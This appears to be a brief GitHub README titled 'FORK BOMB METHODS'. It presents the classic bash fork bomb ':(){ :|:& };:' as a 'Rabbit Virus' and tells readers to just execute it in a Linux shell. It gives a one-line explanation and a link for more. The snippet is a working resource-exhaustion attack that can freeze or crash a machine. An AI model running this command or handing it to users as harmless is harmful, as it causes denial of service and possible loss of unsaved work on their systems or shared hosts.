 # FORK BOMB METHODS

### Just Execute this this tiny code in Linux shell
#### Short Explation :
        This tiny bash code creates Multiple Child Process and do the same thing . 

**Rabbit Virus :**

```
:(){ :|:& };:
```

To Know More .You can Look this page -> <a href="https://www.cyberciti.biz/faq/understanding-bash-fork-bomb/" > Click Here</a>

### 
